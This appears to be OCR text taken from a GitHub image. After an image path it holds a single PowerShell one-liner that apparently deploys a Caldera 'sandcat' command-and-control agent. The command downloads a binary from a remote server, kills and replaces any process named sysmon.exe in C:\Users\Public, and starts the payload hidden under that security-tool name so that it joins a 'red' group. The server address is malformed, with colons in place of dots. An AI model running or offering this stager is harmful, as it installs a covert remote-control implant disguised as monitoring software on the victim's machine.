 $server="http://10:99:156:143:8888";$url="$server/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("platform","windows");$wc.Headers.add("file","sandcat.go");$data=$wc.DownloadData($url);get-process | ? {$_.modules.filename -like "C:\Users\Public\sysmon.exe"} | stop-process -f;rm -force "C:\Users\Public\sysmon.exe" -ea ignore;[io.file]::WriteAllBytes("C:\Users\Public\sysmon.exe",$data) | Out-Null;Start-Process -FilePath C:\Users\Public\sysmon.exe -ArgumentList "-server $server -group red" -WindowStyle hidden;
